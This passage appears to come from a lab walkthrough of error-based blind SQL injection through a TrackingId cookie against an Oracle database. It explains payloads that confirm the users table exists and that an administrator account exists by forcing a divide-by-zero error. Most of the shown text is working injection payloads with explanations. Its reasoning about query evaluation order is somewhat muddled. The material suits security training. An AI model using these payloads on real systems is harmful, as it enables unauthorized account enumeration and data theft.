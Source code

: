### 🔍 Explanation:

| Part | Meaning |
|------|---------|
| `'` | Closes original string input |
| `||` | String concatenation in Oracle |
| `(SELECT '' FROM users WHERE rownum=1)` | Attempts to select from `users` table, limited to one row |
| `+||'--` | Safely closes the rest of the SQL |

### 💡 Result:
- Query executes without error → `users` table **exists** ✅

## 3️⃣ **Confirm `administrator` User Exists**

Now we try to confirm if the `administrator` user exists using **conditional error logic**.

⚠️ You noticed this payload fails:

### ❌ Failing Payload:
```http
Cookie: TrackingId='+||+(SELECT CASE WHEN (username='administrator') THEN TO_CHAR(1/0) ELSE '' END FROM users)+||'--
```

### 🧠 Why It Fails:
SQL engines like **Oracle** process queries in this order:
1. `FROM` clause → Checks if the table exists and has rows.
2. `WHERE` clause → Filters rows.
3. `SELECT` clause → Evaluates what to return.

So even if no `administrator` user exists, the query still tries to execute because there are **other rows in the `users` table**.

➡️ This means the `CASE WHEN (username = 'administrator')` condition **might never be true**, and **no error is triggered**.

### ✅ Fixed Payload:
```http
Cookie: TrackingId='+||+(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')+||'--
```

### 🔍 Explanation:

| Part | Meaning |
|------|---------|
| `WHERE username='administrator'` | Ensures only the admin user is selected |
| `CASE WHEN (1=1)` | Always true for matching rows |
| `THEN TO_CHAR(1/0)` | Forces divide-by-zero error |
| `ELSE ''` | Safe result if no match found |
